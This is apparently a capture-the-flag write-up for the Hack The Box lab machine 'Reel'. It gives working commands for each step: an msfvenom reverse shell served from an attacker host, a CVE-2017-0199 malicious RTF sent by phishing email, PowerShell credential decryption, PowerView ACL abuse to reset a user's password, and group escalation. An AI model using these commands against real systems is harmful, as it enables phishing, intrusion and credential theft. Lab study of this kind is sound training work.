




# [Reel](https://app.hackthebox.com/machines/reel)

```bash
nmap -p- --min-rate 10000 10.10.10.77 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p21,22,25,135,139,445,593 10.10.10.77 -Pn
```


Let's access to ftp service via `anonymous` user.


There's files but I read all of them, there's nothing interesting.


Let's enumerate `SMTP` via `nmap` command.
```bash
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.10.10.77
```


From here, I can see users let's save them into `.txt` file.


Let's guess that there's outdated `Microsoft Office` vulnerability which we send malicious document via email `Phishing` attack.


1.First, we need to create our `hta-psh` file via `msfvenom` command.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=1337 -f hta-psh -o dr4ks.hta
```


2.Then, we need to open http server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.7 8080
```



3.Second, we need to use exploit whose id is [CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199). 
Here, we create our malicious `.rtf` file to send to our victim.

```bash
python2 CVE-2017-0199/cve-2017-0199_toolkit.py -M gen -w invoice.rtf -u http://10.10.14.7:8080/dr4ks.hta -t rtf -x 0
```


4.Then, we need to send `Phishing` email via `sendEmail` command and we need to attach our malicious `.rtf` document.

```bash
sendEmail -f dr4ks@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s 10.10.10.77 -v
```


Hola ! I got shell from port `1337`.




user.txt


On desktop of `nico` user, I found `cred.xml`, let's read this.


To read this, we need to use `Import-CliXml` for powershell.
```bash
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```


tom: 1ts-mag1c!!!


As we have credentials, we can login into machine via `ssh`.




I found `note.txt` file on `tom's` Desktop for location called `C:\Users\tom\Desktop\AD Audit`.


I look at `tom's` user's privileges via `net user` command.


I found a file about `ACL` Access Control List for domain users in a file called `acls.csv` for location `C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors`.

From this result, I see that `tom` user has `Force-Change-Password` against `claire` user.




Let's abuse this via `PowerView.ps1`
```bash
powershell
. .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "Dr4ks123412" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```


We can login to machine via credentials which we set before.

claire: Dr4ks123412


From the `bloodhound` analysis, I also saw that `claire` user has `WriteDACL` privilege for `Backup Admins` group, it means this user can add itself to this group.

```bash
net group backup_admins
net group backup_admins claire /add
```


Via this user, I can access `Backup Scripts` folder of `Administrator's Desktop`.


I found clear-text password on `BackupScript.ps1` file.
```bash
$password="Cr4ckMeIfYouC4n!"
```

Let's `ssh` into machine via `administrator` credentials.


root.txt

